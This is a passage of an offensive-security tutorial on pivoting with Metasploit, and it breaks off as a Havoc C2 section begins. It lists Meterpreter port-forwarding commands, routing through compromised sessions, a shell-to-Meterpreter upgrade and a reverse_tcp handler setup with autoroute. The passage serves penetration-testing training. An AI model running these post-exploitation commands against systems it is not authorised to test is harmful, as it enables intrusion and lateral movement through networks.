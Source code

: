
### 5.3 Port Forwarding Mechanisms

```bash
# Local port forwarding through Meterpreter
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.10.10

# Local port forwarding with specific interface
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.1.100 -L 127.0.0.1

# Reverse port forwarding
meterpreter > portfwd add -R -l 8000 -p 80 -L 192.168.1.100

# List active port forwards
meterpreter > portfwd list

# Delete specific port forward
meterpreter > portfwd delete -l 3389 -p 3389 -r 10.10.10.10

# Flush all port forwards
meterpreter > portfwd flush
```

### 5.4 Advanced Metasploit Pivoting Techniques

```bash
# Multi-session routing
msf > route add 10.10.10.0/24 1
msf > route add 10.20.30.0/24 2

# Session passing between handlers
meterpreter > sessions -k

# Background session for pivoting
meterpreter > background

# Session upgrading for better pivoting
msf > use post/multi/manage/shell_to_meterpreter
msf post(shell_to_meterpreter) > set SESSION 1
msf post(shell_to_meterpreter) > run

# Persistent route establishment
msf > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(handler) > set AutoRunScript post/multi/manage/autoroute
```

## 6. Havoc C2: Modern Command and Control Pivoting

:::note
Havoc C2 operations require a configured and running Havoc server. Ensure you generate appropriate agents and listeners for your specific architecture and scenario. Replace hostnames, ports, and agent parameters accordingly.
:::
